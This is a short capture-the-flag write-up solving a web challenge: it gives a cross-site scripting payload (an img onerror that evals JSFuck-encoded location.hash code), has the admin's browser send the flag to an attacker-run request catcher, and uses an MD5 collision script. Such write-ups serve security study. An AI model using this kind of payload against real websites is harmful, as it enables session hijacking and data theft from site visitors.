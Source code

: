 **Challenge:** http://159.65.249.122:4111/

Payload: `http://159.65.249.122:4111/?<img src onerror =eval(unescape(eval(location.hash.substr(1))))>#<JS code>`

Ps: `location.hash.substr(1)` has to be encoded using [JSFuck](http://www.jsfuck.com/) (uncheck `Eval source` option)

Create an HTTP server or you can use some online solutions like https://webhook.site/ or https://requestbin.com/.

Use this [javascript code](https://gist.github.com/EffectRenan/9e85ddc199668e7b56decd88c875ef6e) to generate a payload which use `eval` function.
  - Edit the variable `host` with your URL.
  - Execute: `node eval-charcode.js`.

Final payload: `http://159.65.249.122:4111/?<img src onerror =eval(unescape(eval(<JSFuck encoded>)))>#<Eval function generated>`

Access `http://159.65.249.122:4111/contact` to get the bytes for hash collision.

Use [this python script](https://gist.github.com/EffectRenan/2425aa1ab52e35f6f8ee8b31b2582d65) to generate a hash collision.
  - `python2 MD5-collision.py "<bytes given>" 0`

Send the final payload to Admin and you will receive a request with the flag.

**Flag**: HACKAFLAG{Noth1n_h4rd_here}
